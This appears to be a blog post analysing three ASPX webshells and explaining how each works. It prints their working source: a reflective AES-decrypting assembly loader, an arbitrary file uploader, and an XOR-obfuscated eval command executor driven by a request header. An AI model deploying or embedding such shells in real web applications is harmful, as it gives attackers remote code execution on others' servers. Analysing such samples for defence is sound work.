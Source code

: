 ```yaml
---
layout: post
title:  "ASPX Webshells analysis"
---
```

While the origin of the specific webshell I’ll be discussing remains unknown, its impact and functionality are worth exploring. In this blog, we’ll unravel the inner workings of this enigmatic tool, examining its potential applications, risks, and countermeasures. So, join me as we embark on an illuminating journey into the depths of an ASPX webshell, its origins shrouded in secrecy.
The analyzed webshells consist of the following: 



# IP.aspx

```c
*byte[] c=Request.BinaryRead(Request.ContentLength);*

*string asname=System.Text.Encoding.ASCII.GetString(new byte[] {0x53,0x79,0x73,0x74,0x65,0x6d,0x2e,0x52,0x65,0x66,0x6c,0x65,0x63,0x74,0x69,0x6f,0x6e,0x2e,0x41,0x73,0x73,0x65,0x6d,0x62,0x6c,0x79});//System.Reflection.Assembly*

*Type assembly=Type.GetType(asname);*

*MethodInfo load = assembly.GetMethod("Load",new Type[] {new byte[0].GetType()});*

*object obj=load.Invoke(null, new object[]{Decrypt(c)});*

*MethodInfo create = assembly.GetMethod("CreateInstance",new Type[] { "".GetType()});*

*string name = System.Text.Encoding.ASCII.GetString(new byte[] { 0x55 }); //U*

*object pay=create.Invoke(obj,new object[] { name });*

*pay.Equals(this);*
```

When the request is received, the binary in the request is read to memory, then it is decrypted with AES ECB algorithm, and the Load method of *System.Reflection.Assembly* is called to load the .NET binary in memory. After loading the binary, the *CreateInstance* method is called to get the binary instance, and finally, the “Equals” method is called from the binary.

# SC.aspx

```c
String filePath = String.IsNullOrEmpty(Request["filePath"])?Request.ServerVariables["APPL_PHYSICAL_PATH"]:Request["filePath"];

if(Request.Files.AllKeys.Length > 0){

foreach (string fileString in Request.Files.AllKeys){

HttpPostedFile file = Request.Files[fileString];

file.SaveAs(filePath + file.FileName);

Response.Write(filePath + file.FileName);

}

}else{

Response.Write(string.Format("<form action='' method='post' enctype='multipart/form-data'><input name='filePath' type='text' value='{0}' /><input name='file' type='file' /><input type='submit' value='submit'></form>",filePath));

}

%>
```

The websshell reads a list of file from the request and writ them to the machine in a specific path.

# MSCV.aspx

```c
*function xor(str)*

*{*

*var key = "cc17c30cd111c7215fc8f51f8790e0e1";*

*var ins = [];*

*for(var x=0;x<str.length;x++)*

*{*

*ins[x] = str[x] ^ key[x%32];*

*}*

*return ins;*

*}*

*function tt(str)*

*{*

*var c = str.ToCharArray();*

*var l = str.length;*

*var r = "";*

*for (var i = 0; i < l ; i++)*

*{*

*r = r + c[l - i - 1];*

*}*

*var eee = xor(System.Convert.FromBase64String(r));*

*return eee;*

*}*

*function un(str,rrr)*

*{*

*return "" + eval(System.Text.Encoding.GetEncoding("UTF-8").GetString(tt(Request.Item["ceshi"].substr(22))),str+rrr);*

*}*

*un('uns',"afe");*

*%>*
```

The payload is in in the header item “ceshi”. The payload starts at offset 22, it is read and passed to the “tt” function. The string is first reversed, then it is decoded using base64, and finally the xor function is called to decrypt the bytes and get the command to run in eval function to execute the command.